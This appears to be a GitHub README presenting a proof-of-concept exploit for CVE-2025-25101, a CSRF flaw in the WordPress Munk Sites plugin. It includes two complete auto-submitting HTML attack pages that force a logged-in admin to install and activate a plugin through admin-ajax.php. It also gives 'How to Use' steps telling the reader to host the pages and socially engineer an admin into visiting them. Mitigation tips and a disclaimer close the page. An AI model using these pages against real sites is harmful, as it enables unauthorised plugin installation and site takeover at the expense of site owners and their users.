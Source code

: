 # 🚀 CVE-2025-25101 - WordPress Munk Sites Plugin <= 1.0.7 - CSRF to Arbitrary Plugin Installation

## 📌 Overview
**CVE-2025-25101** is a **Cross-Site Request Forgery (CSRF)** vulnerability in the **MetricThemes Munk Sites** plugin for WordPress (versions ≤ **1.0.7**).  
This vulnerability allows an **unauthenticated attacker** to **trick an admin into installing and activating arbitrary plugins**, potentially leading to **Remote Code Execution (RCE)** or **website compromise**.

## 🛑 Affected Versions
- **Munk Sites Plugin** `<= 1.0.7`
- **WordPress** `Any version where the plugin is active`

---

## 🔥 Exploit Description
### 🛠️ How the Vulnerability Works:
The **CSRF flaw** in the **Munk Sites** plugin allows an attacker to force a logged-in **WordPress admin** to install and activate any WordPress plugin **without their consent**.  
This is done by exploiting an **unprotected `admin-ajax.php` request** that lacks CSRF token verification.

### 📌 Exploit Workflow:
1. **The attacker crafts a malicious webpage containing the CSRF payload**.
2. **The victim (WordPress admin) visits the attacker's webpage**.
3. **The exploit silently sends requests to WordPress to install and activate an arbitrary plugin**.
4. **The plugin is installed and activated without any admin interaction**.

---

## 💻 Exploit Code
### **1️⃣ CSRF Exploit - Install Plugin**
**This payload forces the victim to install the `hello-world` plugin.**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit - Plugin Installation</title>
    <style>
        body { font-family: Arial, sans-serif; text-align: center; background: #f4f4f4; padding: 20px; }
        h1 { color: #d9534f; } h2 { color: #5bc0de; }
        .output { margin-top: 20px; padding: 10px; background: white; box-shadow: 0 0 10px rgba(0, 0, 0, 0.1); }
        .success { color: #5cb85c; font-weight: bold; }
    </style>
</head>
<body onload="document.forms[0].submit()">
    <h1>📌 CVE-2025-25101</h1>
    <h2>CSRF Exploit - Install 'Hello World' Plugin</h2>
    <h3>🚀 Exploit by: <b>Nxploit | Khaled Alenazi</b></h3>
    <div class="output" id="output">🔄 Installing plugin...</div>
    <form action="http://target.com/wp-admin/admin-ajax.php" method="GET">
        <input type="hidden" name="action" value="cs_install_plugin">
        <input type="hidden" name="plugin" value="hello-world">
    </form>
    <script>setTimeout(() => { document.getElementById("output").innerHTML = "<span class='success'>✅ Plugin installed successfully!</span>"; }, 5000);</script>
</body>
</html>
```

---

### **2️⃣ CSRF Exploit - Activate Plugin**
**This payload forces the victim to activate the `hello-world` plugin.**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit - Plugin Activation</title>
    <style>
        body { font-family: Arial, sans-serif; text-align: center; background: #f4f4f4; padding: 20px; }
        h1 { color: #d9534f; } h2 { color: #f0ad4e; }
        .output { margin-top: 20px; padding: 10px; background: white; box-shadow: 0 0 10px rgba(0, 0, 0, 0.1); }
        .success { color: #5cb85c; font-weight: bold; }
    </style>
</head>
<body onload="document.forms[0].submit()">
    <h1>📌 CVE-2025-25101</h1>
    <h2>CSRF Exploit - Activate 'Hello World' Plugin</h2>
    <h3>🚀 Exploit by: <b>Nxploit | Khaled Alenazi</b></h3>
    <div class="output" id="output">🔄 Activating plugin...</div>
    <form action="http://target.com/wp-admin/admin-ajax.php" method="GET">
        <input type="hidden" name="action" value="cs_active_plugin">
        <input type="hidden" name="plugin" value="hello-world">
    </form>
    <script>setTimeout(() => { document.getElementById("output").innerHTML = "<span class='success'>✅ Plugin activated successfully!</span>"; }, 5000);</script>
</body>
</html>
```

---

## 🔥 How to Use
1. **Host the malicious HTML files (`install.html` and `activate.html`) on an attacker-controlled server.**
2. **Social engineer a WordPress admin to visit `install.html`.**
3. **Once the plugin is installed, trick them into visiting `activate.html`.**
4. **The `hello-world` plugin will be installed and activated without admin consent!**

---

## 🚧 Mitigation
### 🔒 How to Protect Your WordPress Site:
- **Upgrade to the latest version of the Munk Sites plugin** (if a patch is available).
- **Use a WordPress security plugin like Wordfence or Sucuri** to block CSRF attempts.
- **Restrict access to `admin-ajax.php`** using security rules in `.htaccess` or Nginx config.
- **Ensure that only authenticated and authorized users can install or activate plugins.**
- **Implement CSRF protection using `wp_nonce_field()` and `check_admin_referer()`.**

---




## 📜 Disclaimer
⚠️ **This exploit is for educational and security research purposes only.**  
⚠️ **Unauthorized use against systems without explicit permission is illegal.**  
⚠️ **The author is not responsible for any misuse of this code.**  

---

## ⭐ Support & Contributions
If you find this research valuable, feel free to ⭐ **star the repository** and contribute by reporting **new vulnerabilities**.

**_By: Nxploit | Khaled Alenazi_**

